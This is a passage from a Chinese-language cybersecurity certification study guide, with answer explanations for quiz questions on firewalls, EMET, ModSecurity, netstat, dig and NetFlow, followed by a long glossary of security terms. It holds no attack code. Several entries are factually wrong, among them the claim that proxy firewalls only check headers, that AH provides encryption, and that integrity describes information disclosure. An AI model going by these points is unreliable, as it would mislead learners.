2.  C. 代理防火墙对吞吐量的影响最小，因为它们只检查数据包头部以确认允许的 IP 地址或端口号。虽然执行此功能会减慢流量，但它仅涉及查看数据包开头并做出允许或拒绝的快速决定。

3.  C. 堡垒主机（Bastion host）可能是也可能不是防火墙。该术语实际上指的是任何设备的位置。如果该设备直接暴露在互联网或任何不可信的网络中，同时保护网络的其他部分免于暴露，那么它就是堡垒主机。

4.  D. Cisco 防火墙被称为自适应安全设备（ASA）。你可能仍发现一些早期的 Cisco 防火墙产品，称为私有互联网交换（PIX）。ASA 可以作为设备安装，也可以作为插件模块集成到路由器和交换机中。

5.  A. 增强缓解体验工具包（EMET）是微软的一套缓解工具，有助于防止软件中存在的漏洞被利用。虽然它使用的技术为利用漏洞的过程制造障碍，但 EMET 无法保证在这方面的成功，并应该（如其名称所示）被视为一种增强而非最终解决方案。

6.  B. ModSecurity 是一个为保护 Apache、nginx 和 IIS 设计的工具包。它是开源的并支持 OWASP 规则集（CRS）。以下是它提供的一些功能：
    *   实时应用程序监控和访问控制
    *   Web 应用程序加固
    *   完整的 HTTP 流量日志
    *   持续被动安全评估

7.  C. Nessus 不是 SIEM 系统。它是由 Tenable Network Security 开发的专有工具，是最常用的漏洞扫描器之一。

8.  C. netstat（网络状态）命令用于查看基于 TCP/IP 的系统上哪些端口正在监听。a 选项用于显示所有端口，-h 用于显示还有哪些可用选项。选项根据操作系统而异。

9.  D. 在 Linux 中，`dig` 命令用于排错 DNS 问题。作为一个简单的示例，以下命令显示 mcmmillan.com 域中的所有主机（A）记录：

    ```
    dig A mcmmillan.com
    ```


```
dig mcmmillan.com
```


10. A. `NetFlow` 是 `Cisco` 开发的识别网络流的方法。流是指共享以下值的单向数据包：

- 入站接口（`SNMP ifIndex`）
- 源 `IP` 地址
- 目的 `IP` 地址
- `IP` 协议
- `UDP` 或 `TCP` 源端口，其他协议为 `0`
- `UDP` 或 `TCP` 目的端口，`ICMP` 类型和代码，其他协议为 `0`
- `IP` 服务类型（`ToS`）

# 术语表

`802.1x` 一个定义集中端口认证框架的标准。

`A` 表示映射单个设备到 `IPv4` 地址的主机记录。

`AAAA` 表示映射单个设备到 `IPv6` 地址的主机记录。

可接受使用政策（`AUP`）用于告知用户哪些操作是允许的，哪些是不允许的。

访问复杂度（`AC`）描述利用漏洞的难度。

访问控制列表（`ACL`）一组控制允许或拒绝使用路由器路径的有序规则。

访问向量（`AV`）描述攻击者将如何利用漏洞。

账户管理策略是一项有助于指导身份和账户管理的策略。

账户审查对用户的访问权限进行审查。

`Active Directory (AD)` 是微软网络中使用的目录服务。

主动漏洞扫描器能够采取行动阻止攻击的型扫描器，例如阻止危险的 `IP` 地址。

管理控制（Administrative controls）是通过管理组织资产和人员的控制措施，包括管理层建立的安全策略、程序、标准、基准和指南。

高级持续性威胁 (`APT`) 一种针对特定实体并持续长时间的黑客攻击。

基于代理的扫描 (`agent-based scan`) 使用代理和轮询技术进行的扫描。

基于代理的 `NAC` (`agent-based NAC`) 在设备上部署了代理的网络访问控制（`NAC`）。

无无代理的 `NAC` (`agentless NAC`) 在不部署代理的情况下部署的网络访问控制。

聚合 (`aggregation`) 在同一敏感性级别汇集或编译信息单元的过程，其产生的数据整体的敏感性水平高于单个组件。

`Aircrack-ng` 一组可以用于嗅探无线网络的命令行工具。

`ARO` (`年化发生率`) 每年发生特定威胁事件的预期风险因子。

`AlienVault` 统一安全管理 (`USM`) 来自 `AlienVault` 的一种商用 `SIEM`（安全信息和事件管理）系统。

分析工具 (`analysis utilities`) 用于调查中分析系统位级副本的工具。

异常分析 (`anomaly analysis`) 应用于扫描类型时，重点在于识别异常或不正常的情况。

基于异常的入侵检测系统 (`anomaly-based IDS`) 一种 `IDS`，通过分析流量并与正常流量进行比较，以确定该流量是否为威胁。

应用层代理 (`application-level proxies`) 执行深度数据包检测的代理。此类防火墙可以理解感兴趣应用程序第 7 层通信过程的细节。

`ArcSight` 一种 `SIEM` 系统，收集来自安全技术、操作系统、应用程序和其他日志源的安全日志数据，并分析这些数据以寻找受侵害、攻击或其他恶意活动的迹象。

`ARO` (`年化发生率`) 对给定威胁每年可能发生的频率估计。

`ARP` 投毒 (`ARP poisoning`) 使用黑客的 `MAC` 地址回答另一计算机 `IP` 地址的 `ARP` 请求，污染 `ARP` 缓存，并允许黑客接收发往目标的流量。

评估扫描 (`assessment scans`) 用于识别配置错误、恶意软件、违反策略的应用程序设置以及弱密码的扫描。

资产清单 (`asset inventory`) 对所有资产及其价值的识别。

非对称算法 (`asymmetric algorithms`) 同时使用公钥和私钥的算法。公钥所有方已知，而私钥仅由所有者已知。其中一个密钥加密消息，另一个密钥解密消息。

审计 (`audit`) 对系统或应用程序进行手动或系统性的技术评估。由第三方执行为佳。

身份验证 (`Au`) 描述攻击者为了利用漏洞需要通过的身份验证。

身份验证头 (`AH`) 一种 `IPsec` 组件，提供加密、数据完整性和基于系统的身份验证。

身份验证日志 (`authentication logs`) 记录登录尝试成功与失败情况的日志。

身份验证周期 (`authentication period`) 用户可以保持登录状态的时间。

身份验证服务器 (`AS`) 在 `802.1x` 框架中，执行身份验证的中心化设备。

鉴别器 (`authenticator`) 在 `802.1x` 框架中，请求方尝试访问网络的设备。

`AV` (`资产价值`) 资产的价值。

可用性 (`A`) 描述了漏洞被利用时可能发生的中断。

可用性分析 (`availability analysis`) 关注网络中各种设备在线/离线状态的分析。

后门/陷门 (`backdoor/trapdoor`) 在许多设备或应用程序中实现的机制，赋予用户对设备或应用程序的无限访问权限。

塞尔 II (`Basel II`) 影响金融机构的国际标准。它涉及最低资本要求、监管审查和市场纪律。其主要目的是防止银行和其他金融机构面临的风险。

堡垒主机 (`bastion host`) 直接暴露在互联网或任何不可信网络上的设备。

信标行为 (`beaconing`) 描述定期离开网络的流量。

行为分析 (`behavioral analysis`) 异常分析的另一种术语。它也观察网络行为中的异常。

盲测 (`blind test`) 测试团队仅获得网络系统和设备的有限知识，并使用公开信息进行的一种测试。

分组密码 (`block ciphers`) 通过将消息拆分为固定长度的单元来执行加密的密码。

蓝队 (`Blue team`) 当红队的尝试攻击测试蓝队的攻击响应能力时，作为网络防御团队的角色。

僵尸网络 (`botnet`) 一个由被招募为僵尸的设备网络，它们攻击同一个目标以放大攻击。

`Bro` 一种仅支持 `Unix/Linux` 平台的开源 `NIDS`（网络入侵检测系统）。

缓冲区溢出 (`buffer overflow`) 当提交的数据量大于缓冲区能处理的时发生的攻击。

`Burp suite` 一套用于测试 Web 应用程序的工具。它可以扫描应用程序漏洞，还可以用于爬取应用程序（以发现内容）。

`Cacti` 一种基于 `SNMP` 的开源工具，可以监控从主机、设备和其他设备检索的日志和图表数据。

`Cain & Abel` 最著名的密码破解程序之一，它可以通过嗅探网络恢复密码；使用字典攻击、暴力破解和密码分析攻击破解加密密码；记录 `VoIP` 通话；解码乱码密码；显示密码框；揭示缓存密码；以及分析路由协议。

能力成熟模型集成 (`CMMI`) 一套涵盖软件开发生命周期所有阶段的综合指南。

带载冲突规避的多路多道接入 (`CSMA/CA`) 用于 `802.11` 网络中的争用方法。

`Cellebrite` 一种专注于从手机收集证据的取证工具。

互联网安全中心 (`Center for Internet Security`) 一个非营利组织，以编制 `CIS` 安全控制 (`CIS Controls`) 并发布前 20 项 `CIS` 控制清单而闻名。

认证/认可阶段 (`certify/accredit phase`) 软件开发生命周期 (`SDLC`) 中的阶段，根据客户需求对软件的安全有效性进行评估，并在管理层对系统的整体安全性进行正式验收。

监管链 (`chain of custody`) 一种记录谁处理过证据、何时处理以及处理人员持有证据的顺序的纸质轨迹。

变更控制过程 (`change control process`) 用于控制对配置所做更改的过程。

变更管理/配置阶段 (`change management/configuration phase`) `SDLC` 中由适当人员批准源代码所有更改的阶段。

变更报告 (`change report`) 指示自上次报告以来发生了变化的报告。

电路级代理 (`circuit-level proxies`) 在 `OSI` 模型第 5 层（会话层）运行代理。它们根据协议头信息做出决策。

`CIS` 基准 (`CIS Benchmarks`) 由互联网安全中心提供的操作系统、中间件和软件应用程序推荐的技术设置。

清除 (`clearing`) 从介质中移除数据使其无法通过文件恢复技术还原。

点击劫持 (`click-jacking`) 一种伪装成合法页面的透明页面或框架引导用户点击。当他点击时，实际上是在点击一个 `URL`。

别名记录 (`CNAME`) 映射到已存在 `IPv4` 地址的别名记录。

认知密码 (`cognitive password`) 一种可验证个人身份的信息。

组合密码 (`combination password`) 一种强制用户使用互不相关的字典单词混合的密码。

通用配置枚举 (`CCE`) 由 `NIST` 维护的配置最佳实践声明。

通用平台枚举 (`CPE`) 用于描述和分类操作系统和硬件设备的方法。

常见漏洞与披露 (`CVE`) 已发布的操作系统和应用程序中的漏洞。

通用漏洞评分系统 (`CVSS`) 一种根据预定义指标对漏洞进行排级的系统。

常见弱点枚举 (`CWE`) 开发中可能导致漏洞的设计缺陷。

执法协助法案 (`CALEA`) 1994 年的一项影响执法部门和情报机构的法案。它要求电信运营商和电信设备制造商修改并设计其设备、设施和服务，以确保其内置监控能力。

社区端口 (`community port`) `PVLAN` 中使用的一种端口设置，允许端口仅与杂散端口以及同一社区的其他端口通信。

补偿性控制 (`compensative controls`) 用于补偿无法完全消除的缺陷的控制或应对措施。

完全回归测试 (`complete regression testing`) 最终回归测试。回归测试是一种软件测试，用于验证以前开发和测试过的软件在与其他软件更改后是否仍能正常运行。

全自动区分计算机与人类的灵敏测试 (`CAPTCHA`) 一种将图形作为身份验证机制一部分的密码。一种流行的实现要求用户输入图形中显示的系列字符。这种实现确保了人类而非机器在输入密码。另一种流行的实现要求用户从一组图中选择与其账户匹配的图形。

复杂密码 (`complex password`) 一种强制用户包含大小写字母、数字和特殊字符混合的密码类型。

计算机计算机欺诈和滥用法 (`CFAA`) 一项影响任何可能对法案定义的“受保护计算机”进行黑客行为实体的法案。

1987年计算机安全法：第一部要求制定正式计算机安全计划的法律。其编写目的是保护和防御政府系统中的任何敏感信息，并为这些信息提供安全保障。

机密（商业数据）：在公司内部限制可能较少，但一旦泄露可能会造成损害的数据。

机密（政府数据）：如果发生未经授权的泄露，可能会对政府产生严重影响的信息。

机密性 (`C`)：描述在利用漏洞时可能发生的信息泄露。

污染：一种敏感性或知情水平的数据与另一类数据的交织或混合。

基于上下文的认证：一种身份验证形式，在对实体进行验证和授权之前考虑多个因素或属性。

持续改进：不断努力提高组织安全水平的过程。

持续监控：每天定义并实施的操作程序。

控制流图：一种测试方法，通过开发一个组件及其关系的图表，重点关注每个组件或模块的入口点和出口点。

信息和相关技术控制目标 (`COBIT`)：一种安全控制开发框架，它使用过程模型将 `IT` 分为四个领域：计划和组织 (`PO`)、获取和实施 (`AI`)、交付和支持 (`DS`) 以及监控和评估 (`ME`)。

版权：一种法律保护，确保作者创作的作品在未经版权持有者（通常是创建原始作品的作者或艺术家）同意的情况下，任何形式的复制受到保护。

纠正控制：用于修复或恢复受攻击实体的控制。

凭据安全支持提供者 (`CredSSP`)：集成到微软远程桌面服务环境中的安全支持提供者，用于提供网络层认证。

凭证扫描：由具有扫描主机管理权限的人员执行扫描。

关键性：衡量数据重要性的标准。

交叉认证模型：一种每种组织都认证其他所有组织的模型。

跨站请求伪造 (`CSRF`)：一种导致用户在当前已认证的 Web 应用程序中执行意外操作的攻击。

跨站脚本 (`XSS`)：攻击者发现网站漏洞并向 Web 应用程序注入恶意代码时的攻击。

密码学：提供数据机密性和完整性的数学方法。

加密工具：调查人员遇到加密证据时使用的工具。

数据聚合：收集大量数据并根据信息中的某些共同变量对其进行某种过滤和总结的过程。

数据分类：根据敏感性级别对所有数据进行分类，然后组织数据类型以适用于每个敏感级别的适当控制的过程。

数据分类策略：定义数据分类过程的策略。

数据外泄：从设备或网络中窃取数据。

数据流分析：在软件处于静态时查看运行时信息的分析。

数据完整性：数据的正确性、完整性和健全性。

数据丢失防护 (`DLP`) 软件：试图防止数据泄漏的软件。

数据仓库：来自异构数据库的信息存储库。它允许多个数据源不仅存储在一个地方，而且以这种方式组织减少数据冗余（称为数据归一化），并使用更高级的数据挖掘工具处理数据，以发现以前可能没有的关系。

数据所有权策略：涵盖识别每条数据或每个数据集所有者的策略。

数据残留：由于云维护功能无意中复制到虚拟机 (`VM`) 中的敏感数据，或在终止的虚拟机中留下的残留数据。

数据保留策略：概述必须保留各种类型数据的策略，并可能依赖数据分类策略中描述的数据分类。

`dd`：一种用于转换和复制文件的 `UNIX` 命令。美国国防部创建了该命令的一个变体，即 `dcffdd`，它增加了额外的取证功能。

调试：交互式单步执行代码的过程。

反编译：尝试重建高层语言源代码的过程。

分解：当应用于软件时，是指发现软件如何工作、可能是谁创建了它，并在某些情况下如何防止软件执行恶意活动的过程。

深度防御：指在数据与其所处资源以及可能的攻击者之间使用多层安全的实践。

设计阶段：软件开发生命周期 (`SDLC`) 中的阶段，在此阶段组织开发软件如何满足所有功能和安全目标的详细描述。

破坏：破坏存储数据的介质。

检测控制：在攻击发生时检测到攻击并通知相关人员的控制。

威慑控制：威慑或阻碍攻击者的控制。

开发阶段：软件开发生命周期 (`SDLC`) 中编写使软件运行的代码或指令的阶段。

`DHCP` 嗅探：为了防止对 `DHCP` 数据库进行中毒攻击而进行的嗅探过程。它从信任的 `DHCP` 服务器创建 `IP` 地址到 `MAC` 地址的映射。这些映射可用于动态 `ARP` 检查 (`DAI`) 的验证过程，从而防止 `ARP` 欺骗攻击。

`dig`：一种用于测试和排除 `DNS` 服务器故障的 `Linux` 命令行工具。

数字取证工作站：专门用于数字调查的工作站。

指示控制：指定组织内可做法的控制。

目录服务：存储、组织并提供计算机操作系统目录中信息访问的服务。

反汇编：将机器码读入内存，然后将每条指令作为文本字符串输出。

发现扫描：用于识别所有主机和识别所有可用服务的清单。

`DMZ`：非军事化区，网络的一部分，用于可从不可信网络访问的系统。`DMZ` 在逻辑上与内网分离，内网提供了从外部访问的资源。

`DNS` 采集：涉及获取组织的 `DNS` 记录以用于网络映射的过程。

域名系统 (`DNS`)：用于互联网或私有网络的计算机、服务任何资源的分级命名系统。

`DoS/DDoS`：拒绝服务/分布式拒绝服务，一种攻击者通过向设备发送大量请求导致目标设备性能下降的攻击类型。

双重标记：攻击者创建一个带有两个标签的数据包的过程。第一个标签在遇到第一个交换机的躯干端口时被移除，但第二个标签保留，允许帧跳跃到另一个 `VLAN`。

双盲测试：一种测试团队仅拥有网络系统和设备有限知识（使用公开可用信息），且组织的安全团队不知道攻击即将到来的测试。

驱动器适配器：连接两种类型设备的连接器。

双重控制：一种概念，由一个人执行敏感操作的一部分，另一个人执行第二部分。

双宿防火墙：具有两个网络接口的防火墙：一个指向内部网络，另一个连接到不可信网络。

垃圾翻找：攻击者检查垃圾内容以获取机密信息的过程。

动态 `ARP` 检查 (`DAI`)：一种拦截所有 `ARP` 的请求和响应，并将每个响应的 `MAC` 地址和 `IP` 地址信息与受信任绑定表中的 `MAC-IP` 绑定进行比较的安全功能。

动态包过滤：防火墙为来自网络生成的流量打开返回端口的过滤方式。

1996年经济间谍法：一项影响拥有机密的公司以及计划使用加密技术进行犯罪活动的个体的法律。

`EF` 暴露因子：当威胁事件发生时将损失的资产百分比值或功能。

1986年《电子通信隐私法》(`ECPA`)：一项影响执法部门和情报机构的法律。它扩展了政府对电话窃听的限制，将其扩大到计算机电子数据的传输，并禁止了对存储的电子通信的访问。

邮件采集：收集电子邮件地址并作为发送垃圾邮件的源地址。

邮件分发测试：一种手动同行评审，在代码提交后，会自动将源代码通过电子邮件发送给评审人员。

辐射：电子设备发出的电磁信号。

员工隐私问题和隐私预期：组织确保对员工的监控以一致的方式实施的概念。

封装安全载荷 (`ESP`)：一种 `IPsec` 组件，提供 `AH` 提供的所有功能以及数据机密性。

`EnCase`：一种案件（事件）管理工具，为特定类型的调查提供内置模板。这些模板基于工作流，即执行该类型调查的各个步骤。

终端 `DLP`：运行在组织端用户工作站或服务器上的 `DLP` 系统。

终端安全：安全领域的一个分支，试图通过从中心位置与这些单个系统保持持续联系，来保护网络中的单个系统。

终端：指从桌面系统、笔记本电脑到各种类型移动设备的客户端系统。

增强缓解体验工具包 (`EMET`)：微软提供的一系列缓解工具，有助于防止软件漏洞被利用。

升级程序：决定何时将事件提交给更层级机构的程序。

异常报告：在扫描器中创建的规则，允许可执行文件被递送到主机。

执行报告：一种仅提供适度图形和简短支持性文本以辅助决策的报告。

漏洞利用框架：一组可以针对漏洞发起模块化攻击的工具。这些工具使用漏洞利用代码数据库。

可扩展访问控制标记语言 (`XACML`)：一种使用 `XML` 的访问控制策略语言。

外网：逻辑上与内网分离的网络，其中从外部世界访问的资源对一组选定的用户可用。

误报：扫描器识别为漏洞的问题，但实际上并不存在漏洞。

2002年《联邦信息安全管理法》(`FISMA`)：一项影响每个联邦机构的法律。它要求每个联邦机构制定、记录并实施一项全机构范围的信息安全计划。

1978年《联邦外国情报监视法》(`FISA`)：一项影响执法部门和情报机构的法律。它是首部规定在“外国势力”与“外国势力代理”之间对“外国情报信息”进行物理和电子监视及收集程序的法律，且仅适用于美国境内的流量。

1974年《联邦隐私法》：一项影响包含联邦机构使用的记录的计算机的法律。它为联邦机构在记录系统中收集、维护、使用和分发个人身份识别信息 (`PII`) 提供了指南。

联邦身份：一种可以跨业务和领域使用的可移植身份。

文件/数据分析工具：用于对潜在恶意文件进行静态分析的工具。

`FIN` 扫描：设置了 `FIN` 标志的端口扫描。

指纹识别/哈希：对大型文档或文件使用哈希算法的过程，将文件还原为字符字符串，该字符串可验证文件的完整性（通过指示文件是否发生了任何变化）。

防火墙日志：记录防火墙所有活动的日志。

取证套件：包含许多用于取证调查的工具的工具集。

取证工具包 (`FTK`)：一种商业工具包，包含镜像工具和 `MD5` 哈希实用程序，在响应事件时可能需要用到。`FTK` 可以扫描硬盘以查找各种信息。

全知识测试：为测试团队提供有关组织网络公开知识的测试。

模糊测试：涉及向应用程序中注入无效或意外的输入（有时称为故障）以测试应用程序如何反应的测试。

需求采集阶段：软件开发生命周期 (`SDLC`) 中识别解决方案的功能需求和安全要求的阶段。

基于生成的模糊测试：一种模糊测试，涉及根据规范/格式从头开始生成输入。

1999年《格拉姆-莱奇-布莱利法》(`GLBA`)：一项影响所有金融机构、包括银行、贷款公司、保险公司和信用卡提供商的法律。它提供了保护所有财务信息的指南，并禁止与第三方共享财务信息。该法直接影响 `PII` 的安全性。

图形密码：使用图形作为身份验证机制一部分密码。

组策略：一种用于向一组用户或一组计算机设置的方法。

加固：一个涉及使用旨在减少系统攻击面的的技术的过程。

哈希函数：用于确保数据完整性的函数。

哈希处理：一种允许验证文件或图像完整性的过程。

哈希实用程序：使用哈希算法创建值的实用程序，该值稍后可用于验证信息未被变动。

2010年《医疗保健与教育和解法案》：一项影响医疗保健和教育机构的法律。该法案增加了为了保护医疗信息必须采取的某些安全措施。

医疗保险流动性与责任法 (`HIPAA`)：又称肯迪-卡西鲍法，一项影响所有医疗机构、医疗保险公司和医疗结算机构的法律。它由健康与服务的民权办公室执法，并为存储、使用和传输医疗信息和医疗数据提供了标准和程序。`HIPAA` 覆盖州法，除非州法更严格。

`Helix`：一种可以挂载到主机而不影响主机数据的光盘。从该光盘获取证据并制作驱动镜像。

启发式分析：使用决策规则或权重方法确定系统对特定威胁/风险的敏感性。

历史分析：旨在发现值随时间变化的历史的分析。

蜜罐：一个被配置为对黑客具有吸引力的系统，诱导他们花费时间攻击它们，以便收集有关攻击的信息。

水平权限提升：当普通用户访问留给其他普通用户的功能或内容的情况。

主机扫描：涉及识别网络或域命名空间内活动主机的过程。

基于主机的入侵防御系统 (`HIPS`)：一种监控单系统流量的 `IPS`，主要责任是保护其安装的系统。

混合加密：一种同时使用对称和非对称算法的加密。

虚拟机监控程序攻击：一种涉及接管虚拟机监控程序以获取虚拟机及其数据访问权的攻击。

身份与访问管理 (`IAM`) 软件：创建用于补充你的目录服务可能可用工具的软件。

身份传递：将用户或设备的经过验证的身份信息从多层系统的一个部分传递到另一个部分的过程。

身份提供者 (`IP`)：向服务提供商 (`SP`) 提供用户信息的实体，服务提供商在提供服务之前会消耗这些信息。

身份盗窃 (`identity theft`)：指他人获取个人信息（包括执照号码、银行账户和和社会安全号），并使用这些信息冒充被盗信息个人员身份的行为。

`ifconfig`：一个用于在 `Linux` 和 `Unix` 中查看设备 `IP` 配置的命令。

镜像工具 (`imaging tools`)：用于在取证和诉讼程序中制作位级副本的工具。

`Imperva`：一种商业 `WAF`，它使用专利动态应用程序分析来学习 Web 应用的所有方面，包括目录、`URL`、参数和可接受的用户输入，以检测攻击。

应急响应 (`incident response`)：一为处理安全事件而开发的流程。

应急响应计划 (`incident response plan`)：用于指导应急响应过程的计划。

应急响应提供者 (`incident response provider`)：受聘用于处理安全事件的第三方提供者。

事件摘要报告 (`incident summary report`)：总结事件要点的报告。

工业控制系统 (`ICS`)：涵盖工业生产中使用的多种控制系统的通用术语。

推理 (`inference`)：当某人拥有某一层级的信息并据此推导出另一层级信息时发生的过程。

信息技术基础库 (`ITIL`)：由管理和预算办公室在 `OMB` 循环 `A-130` 中开发的流程管理开发标准。

初始化向量 (`initialization vectors`)：随机生成的值，用于确保在加密过程中不会产生模式。

输入验证 (`input validation`)：涉及检查所有输入是否符合正确格式和正确长度等要求的流程。

不安全的直接对象引用 (`insecure direct object reference`)：当用户有权使用应用程序但正在访问其本不应访问的信息时发生的过程。

整数溢出 (`integer overflow`)：当数学运算尝试创建一个可用空间无法容纳的数值时发生的过程。

完整性 (`I`)：描述了利用漏洞时可能发生的信息泄露。

知识产权 (`intellectual property`)：必须保护的专利、版权、商标和商业秘密，否则业务将失去由此类属性创造的任何竞争优势。

拦截代理 (`interception proxy`)：在客户端和服务器之间充当中间人的代理。通过这种简单的设置，创建了许多不同的工具来对在客户端和服务器之间往返的流量执行各种功能。

互联网密钥交换 (`IKE`)：一种 `IPsec` 组件，提供创建 `ISAKMP` 在对等身份验证期间交换密钥所需的认证材料。

互联网安全关联和密钥管理协议 (`ISAKMP`)：一种 `IPsec` 组件，处理会话安全关联的创建和密钥交换。

内网 (`intranet`)：一个通常存放敏感信息和系统的信任网络，应该通过防火墙和强身份验证机制获得最大的保护。

入侵检测系统 (`IDS`)：负责检测针对系统或网络的未经授权访问或攻击的系统。

入侵预防系统 (`IPS`)：可以采取行动防止入侵的系统。

`ipconfig`：一个 `Windows` 命令，用于查看设备的 `IP` 配置，并在与某些开关或参数结合时，可用于释放和续租从 `DHCP` 服务器获取的 `IP` 地址租约，并刷新 `DNS` 解析器缓存。

`IPsec`：一种提供加密、数据完整性和基于系统的认证的协议。

`ISO/IEC 27000`：系列用于解决信息安全管理体系 (`ISMS`) 各个方面的标准。

隔离端口 (`isolated port`)：`PVLAN` 中的一种端口设置，允许端口仅与混合端口 (`promiscuous ports`) 通信。

隔离 (`isolation`)：将设备与其他设备分离。

轮岗 (`job rotation`)：让员工在不同工作之间轮换的实践，增加了发现欺诈活动的可能性。

`John the Ripper`：一种可以在 `Unix/Linux` 以及 `OS X` 系统上运行的密码破解器。

跳板机 (`jump box`)：用于访问放置在安全网络区域（如 `DMZ`）中的设备。该服务器跨越两个网络，提供从管理桌面桌面到受管理设备的访问。

`Kerberos`：一种由 `MIT` 项目 `Athena` 开发、使用客户端/服务器模型的认证协议。

内核调试器 (`kernel debugger`)：运行在环 0（本质上是驱动程序层级）并可以访问内核的调试器。

内核代理防火墙 (`kernel proxy firewall`)：第五代防火墙。它检查 `OSI` 模型中每一层的数据包，但不会引入应用层防火墙带来的性能损耗，因为它在内核层执行此操作。

密钥发行中心 (`KDC`)：`Kerberos` 中所有用户和服务密钥的存储库。

`Kiwi Syslog`：日志管理软件，基于 `Windows` 或 `Linux` 提供主机和设备的日志数据及 `SNMP` 数据的集中存储。

已知威胁 (`known threats`)：常识性的威胁，可以通过杀毒软件和 `IDS` 引擎的签名或通过域名信誉黑名单轻松识别。

`LAN`：局域网，一种位于某一特定地点的网络，例如单个办公室或校园。

二层隧道协议 (`L2TP`)：一种在 `OSI` 模型第二层运行的较新协议。像 `PPTP` 一样，`L2TP` 可以各种认证机制；但 `L2TP` 不提供任何加密。它通常与 `IPSec` 使用，这是一种非常强大的加密机制。

`LDAP`：轻量级目录访问协议，一种基于早期标准 `X.500` 的目录标准。

学习报告 (`learned report`)：简要列出并讨论当前关于攻击或环境报告。

词法分析 (`lexical analysis`)：涉及将源代码转换为信息标记，以抽象代码并使其更便于为了测试目的的操作。

实时虚拟机迁移 (`live VM migration`)：当黑客在虚拟机镜像中植入恶意代码，以便对虚拟机往返的数据中心发动攻击时发生的过程。

本地安全权威子系统服务 (`LSASS`)：本地系统中的认证过程。

基于位置的 `NAC` (`location-based NAC`)：根据请求时的位置做出访问决策的网络访问控制。

日志分析器 (`log analyzers`)：用于提取日志文件的工具。

日志查看器 (`log viewers`)：用于读取日志文件的工具。

逻辑（技术）控制 (`logical (technical) controls`)：用于限制访问的软件或硬件组件。

`MAC` 溢出：一种地址溢出攻击，会导致交换机的 `MAC` 地址表填充不存在的 `MAC` 地址。当这种情况发生时，交换机接收的所有合法流量都会广播到每个端口。

维护钩子 (`maintenance hooks`)：构建在代码中的一组指令，允许知道“后门”的人使用这些指令进行连接，然后使用正常的访问控制编辑代码。

恶意软件 (`malicious software`)：任何旨在执行恶意行为的软件。

强制访问控制 (`MAC`)：根据数据敏感性、用户许可级别和用户被授权的操作等变量，在时间以不同的安全模式运行的访问系统。

强制休假 (`mandatory vacations`)：一种强迫员工休假以便其他员工履行工作的实践，增加了发现欺诈活动的可能性。

中间人攻击 (`man-in-the-middle attack`)：黑客将自己置于两个设备之间并接收它们相互发送流量的攻击。

人工同行评审 (`manual peer review`)：在没有自动化工具帮助的情况下审查另一位开发者代码的过程。

人工审查 (`manual review`)：在没有自动化工具帮助的情况下审查日志的过程。

成熟度模型 (`maturity model`)：一种在软件开发生命周期 (`SDLC`) 中规定复杂程度水平的过程改进方法。

最大可容机时间 (`MTD`)：组织能够忍单个资源或功能故障的最长时间。

`MD5sum`：一种用于证明完整性的哈希算法。

平均故障间隔时间 (`MTBF`)：设备在发生故障之前的预计运行时间。该数值由设备供应商计算。

平均修复时间 (`MTTR`)：修复单个资源或在发生灾难或中断时所需的平均时间。

谅解备忘录 (`MOU`)：一种文件，虽然具有法律约束力，但它表示各方之间对于共同执行某事的一般协议。

内存溢出：当应用程序使用的内存超过操作系统分配给它的内存时发生的溢出。

`Metasploit`：一个开源框架，在本文编写时，它带了 556 个利用程序。

微软基准安全分析器 (`MBSA`)：一种 `Windows` 工具，可以扫描各种漏洞，包括缺失的安全补丁、缺失的操作系统更新、缺失的防病毒软件更新以及弱密码。

微软 `SDL` 文件/正则表达式模糊测试工具：微软的两款工具：`File Fuzzer`（在文件中生成随机内容）和 `Regex Fuzzer`（测试使用正则表达式的函数）。

移动代码：任何跨网络传输并在本地系统上执行的软件。

移动设备取证：使用工具从移动设备中获取信息。

移动黑客设备：允许恶意人员沿软件定义电台使用软件，欺骗手机用户将连接路由到虚假基站。

`ModSecurity`：一个旨在保护 `Apache`、`nginx` 和 `IIS` 的工具包。它是开源的，并支持 `OWASP` 核心规则集 (`CRS`)。

多路由器流量图形 (`MRTG`)：一种用于创建显示路由器和交换机接口进出流量图表的工具。它提供了一种视觉观察这些流量的方法，在许多情况下，可以使用原始数据更快速地识别和解决问题。

多宿主：具有多个网络接口的防火墙。

变异模糊测试：一种涉及（盲目地）更改现有输入值的模糊测试。

`MX`：邮件交换器记录，代表映射到 `IPv4` 地址的电子邮件服务器。

`Nagios`：一个开源的监控和告警工具，可以监控硬件设备、网络服务、主机资源以及许多其他项目。

国家信息保证认证与认可流程 (`NIACAP`)：一套标准活动和通用任务，以及一个管理结构，用于认证和认可维护系统或站点信息保证和安全态势的系统。

近场通信 (`NFC`)：一种短距离无线传输。

`Nessus`：最广泛使用的漏洞扫描器之一，由 `Tenable Network Security` 开发。

`NetFlow`：一种由 `Cisco` 开发的技术，现由所有主要供应商支持，可收集并随后导出 `IP` 流量统计信息。

`Netstat`：一种可查看基于 `TCP/IP` 的系统中哪些端口正在监听的实用。它是一个命令行工具，用于显示 `TCP/IP` 网络连接、路由表、网络接口数量以及网络协议统计数据。

网络访问控制 (`NAC`)：一种超越用户身份验证的服务，它包括对用户对网络进行远程访问或 `VPN` 连接时所引入的计算机状态进行检查。

网络捕获工具：用于理解恶意软件如何使用网络的工具。

网络 `DLP`：安装在边界附近网络出口的 `DLP` 系统，用于分析网络流量。

`Network General`：最古老的嗅探器之一，目前由 `Netscout` 生产，该公司生产多种企业分析产品。

网络映射：涉及创建逻辑网络图的过程，该图不仅识别所有系统，还识别系统之间存在的连接关系。

基于网络的 `IDS`：监控本地网络段网络流量的入侵检测系统。

`Nexpose`：由 `Rapid7` 开发的漏洞扫描器。`Nexpose` 的输出可以导入到 `Metasploit`。

下一代防火墙：一类设备，试图解决传统状态检测防火墙在流量检查和应用感知方面的缺陷，同时不影响性能。

`Nginx` `XSS` & `SQL` 注入 (`NAXSI`)：用于 `nginx` Web 服务器的开源 `WAF`。它使用你创建的白名单来允许或禁止操作。

`NIDS`：网络入侵检测系统，监控所有网络流量的系统。

`Nikto`：一个用于 Web 服务器的漏洞扫描器。它适用于 `Linux` 但可以通过 `Perl` 解释器在 `Windows` 上运行。

`NIPS`：网络入侵防御系统，监控并能对所有网络流量做出反应的系统。

`NIST` 网络安全框架：一个专门用于 `IT` 安全创建的框架。它提供了一个计算机安全指导策略框架，指导私营部门如何评估和提高其预防、检测和响应网络攻击的能力。

`NIST SP 800-53`：由美国商务部下属 `NIST` 机构开发的安全控制开发框架。

